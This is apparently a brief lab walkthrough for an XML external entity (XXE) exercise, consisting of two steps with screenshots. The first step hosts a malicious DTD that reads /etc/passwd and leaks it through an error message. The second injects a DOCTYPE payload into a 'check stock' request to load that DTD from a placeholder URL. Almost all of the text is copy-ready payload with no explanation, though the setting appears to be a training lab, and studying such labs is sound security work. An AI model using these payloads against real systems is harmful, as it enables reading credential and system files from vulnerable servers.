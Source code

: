 
1. Go to exploit and paste the following code

```
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>"> 
%eval; 
%exfil;
```

![](/static/img/Pasted_image_20231113212034.png)

2. Insert the following payload at the check stock request

```
`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`

```


![](/static/img/Pasted_image_20231113212234.png)

![](/static/img/Pasted_image_20231113212252.png)